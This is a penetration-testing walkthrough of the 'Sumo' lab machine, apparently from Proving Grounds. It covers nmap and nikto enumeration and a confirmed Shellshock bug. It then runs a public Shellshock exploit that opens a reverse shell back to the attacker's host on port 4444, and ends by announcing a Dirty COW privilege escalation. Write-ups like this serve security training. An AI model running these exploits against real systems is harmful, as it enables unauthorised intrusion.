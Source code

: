 ```yaml
---
categories: [proving-ground-play]
tags: [proving-ground,walkthrough,pentest]
---
```


Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Sumo/Untitled.png)

```bash
IP : 192.168.249.136
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Sumo]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.136
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-20 06:38 EDT
Nmap scan report for 192.168.249.136
Host is up (0.00080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06cb9ea3aff01048c417934a2c45d948 (DSA)
|   2048 b7c5427bbaae9b9b7190e747b4a4de5a (RSA)
|_  256 fa81cd002d52660b70fcb840fadb1830 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
MAC Address: 00:0C:29:E6:D1:ED (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sumo/Untitled%201.png)

After this I directory Traversal this site and got nothing . So I tried nikto and I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Sumo]
└─$ nikto -h http://192.168.249.136/ -o nikto.txt
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.249.136
+ Target Hostname:    192.168.249.136
+ Target Port:        80
+ Start Time:         2023-05-20 06:42:39 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ /: Server may leak inodes via ETags, header found with file /, inode: 1706318, size: 177, mtime: Mon May 11 13:55:10 2020. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /index: Uncommon header 'tcn' found, with contents: list.
+ /index: Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. The following alternatives for 'index' were found: index.html. See: http://www.wisec.it/sectou.php?id=4698ebdc59d15,https://exchange.xforce.ibmcloud.com/vulnerabilities/8275
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /cgi-bin/test: Uncommon header '93e4r0-cve-2014-6271' found, with contents: true.
+ /cgi-bin/test: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
+ /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ /cgi-bin/test/test.cgi: This might be interesting.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8909 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2023-05-20 06:49:27 (GMT-4) (408 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

From web I got tried this and it works fine →

```bash

```

![Untitled](/Vulnhub-Files/img/Sumo/Untitled%202.png)

That confirms the shellshock vulnerability →

Now I need to try shellshock and for that I recon on web and got this →

[https://github.com/b4keSn4ke/CVE-2014-6271](https://github.com/b4keSn4ke/CVE-2014-6271)

Lets try this ⬆️ out →

```bash
python3 [shellshock.py](http://shellshock.py/) 192.168.249.128 4444 [http://192.168.249.136/cgi-bin/test](http://192.168.249.136/cgi-bin/test)
```

In response to the nc I got this →

![Untitled](/Vulnhub-Files/img/Sumo/Untitled%203.png)

Now I have a sumo user and after so much enumeration I think , I have to kernal exploit →

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ uname -an
uname -an
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/usr/lib/cgi-bin$
```

Now I have to use an exploit names as `dirty cow` so lets go →